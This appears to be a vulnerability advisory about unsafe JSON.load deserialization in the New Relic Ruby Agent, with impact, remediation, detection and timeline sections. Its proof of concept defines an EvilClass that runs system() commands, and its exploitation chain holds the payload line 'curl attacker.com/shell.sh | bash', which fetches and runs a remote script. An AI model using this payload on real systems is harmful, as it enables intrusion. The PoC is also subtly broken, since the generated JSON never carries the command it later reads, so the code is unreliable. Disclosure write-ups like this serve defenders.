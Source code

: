```yaml
---
title: "Remote Code Execution in New Relic Ruby Agent"
description: "A critical remote code execution vulnerability in New Relic Ruby Agent's JSON marshaller that allows attackers to execute arbitrary code through unsafe deserialization of untrusted data."
publishDate: 2025-04-18
cveId: "CVE-2025-XXXXX"
vendor: "New Relic"
affectedProduct: "newrelic-ruby-agent < 8.17.0"
severity: "Critical"
patchStatus: "Patched"
patchDate: 2025-06-05
discoveryDate: 2025-04-18
---
```


# Remote Code Execution in New Relic Ruby Agent

## Summary

A critical remote code execution vulnerability was discovered in New Relic Ruby Agent's JSON marshaller component. The vulnerability allows attackers to execute arbitrary code by exploiting unsafe deserialization of untrusted data through the agent's metrics collection system.

## Vulnerability Details

The vulnerability exists in the JSON marshaller component (`lib/new_relic/agent/new_relic_service/json_marshaller.rb`) which uses Ruby's `JSON.load` method to deserialize data. This method is known to be unsafe as it can instantiate arbitrary Ruby objects, potentially leading to remote code execution.

### Technical Details

The vulnerable code in the JSON marshaller:

```ruby
# lib/new_relic/agent/new_relic_service/json_marshaller.rb
def load(data)
  JSON.load(data)  # Unsafe deserialization
end
```

The `JSON.load` method accepts a special `json_class` attribute that allows instantiation of arbitrary Ruby objects. This can be exploited by crafting malicious JSON payloads that trigger code execution through Ruby's object instantiation mechanisms.

## Impact

Successful exploitation allows attackers to:

1. Execute arbitrary code with the privileges of the Ruby application
2. Access sensitive application data
3. Pivot to other systems in the network
4. Establish persistent access to compromised systems

The vulnerability has received a CVSS 3.1 Base Score of 9.8 (Critical) due to:
- Network attack vector
- No authentication required
- No user interaction needed
- Complete system compromise possible

## Proof of Concept

### Video Demonstration

<div class="video-container">
  <video 
    width="100%" 
    height="100%" 
    controls 
    autoplay 
    muted
    style="position: absolute; top: 0; left: 0; width: 100%; height: 100%;"
  >
    <source src="/videos/newrelic-ruby.mp4" type="video/mp4">
    Your browser does not support the video tag.
  </video>
</div>

<style>
.video-container {
  position: relative;
  padding-bottom: 56.25%; /* 16:9 Aspect Ratio */
  height: 0;
  overflow: hidden;
  margin: 2rem 0;
  border-radius: 8px;
  box-shadow: 0 4px 6px -1px rgba(0, 0, 0, 0.1), 0 2px 4px -1px rgba(0, 0, 0, 0.06);
}
</style>

### Code Vulnerable

The following proof of concept demonstrates the vulnerability:

```ruby
require 'json'

# Malicious class for demonstration
class EvilClass
  def initialize(cmd)
    @cmd = cmd
  end
  
  def to_json(*args)
    { "json_class" => self.class.name }.to_json(*args)
  end
  
  def self.json_create(o)
    system(o["@cmd"])
  end
end

# Create malicious payload
payload = EvilClass.new("id > /tmp/pwned").to_json

# When this JSON is processed by the vulnerable agent:
require 'new_relic/agent/new_relic_service/json_marshaller'
marshaller = NewRelic::Agent::NewRelicService::JsonMarshaller.new
marshaller.load(payload)  # Triggers command execution
```

## Exploitation Chain

1. **Initial Access**:
   ```ruby
   # Craft malicious metrics payload
   {
     "metric_data": {
       "metrics": [{
         "name": "Custom/Exploit",
         "value": {
           "json_class": "EvilClass",
           "@cmd": "curl attacker.com/shell.sh | bash"
         }
       }]
     }
   }
   ```

2. **Execution Flow**:
   ```mermaid
   graph TD
     A[Attacker] -->|Send Malicious Metrics| B[New Relic Agent]
     B -->|Process Metrics| C[JSON.load]
     C -->|Instantiate Object| D[Object Creation]
     D -->|Execute Payload| E[System Compromise]
   ```

3. **Command Execution**:
   - Agent deserializes JSON payload
   - Ruby creates instance of attacker-controlled class
   - Malicious methods execute during object initialization
   - Attacker gains code execution

## Remediation

New Relic has addressed this vulnerability in version 8.17.0 by:

1. Replacing `JSON.load` with `JSON.parse`:
   ```ruby
   def load(data)
     JSON.parse(data)  # Safe deserialization
   end
   ```

2. Adding input validation for metric data
3. Implementing strict type checking
4. Removing support for arbitrary object deserialization

Users should upgrade to version 8.17.0 or later immediately.

## Timeline

- **2025-04-18**: Initial vulnerability report sent to New Relic security team
- **2025-05-18**: Patch submitted via Pull Request #3183
- **2025-05-20**: Staff response and vulnerability confirmation
- **2025-05-20**: Vulnerability patch approved
- **2025-06-05**: Patch released in version 8.17.0

## Detection

Security teams can detect exploitation attempts by monitoring for:

1. Suspicious Ruby object instantiation in agent logs
2. Unexpected network connections from Ruby processes
3. Anomalous system command execution
4. Unusual metric data patterns in New Relic collectors

Vulnerable log analysis:
```bash
# Search for potential exploitation attempts
grep -r "json_class" /var/log/newrelic/
```

## Mitigation

Until patching is possible:

1. Monitor agent processes for unusual behavior
2. Implement network segmentation for collector traffic
3. Use application firewalls to filter malicious JSON
4. Consider temporarily disabling the Ruby agent if risk is high

## References

1. [Pull Request #3183](https://github.com/newrelic/newrelic-ruby-agent/pull/3183)
2. [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html)
3. [Ruby JSON Documentation](https://ruby-doc.org/stdlib-2.7.0/libdoc/json/rdoc/JSON.html#method-i-load)
4. [OWASP Deserialization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)

## Acknowledgements

This vulnerability was discovered and reported by @odaysec security research team. Special thanks to:
- New Relic Security Team for quick response
- Ruby Security Team for guidance
- Open Source Security Community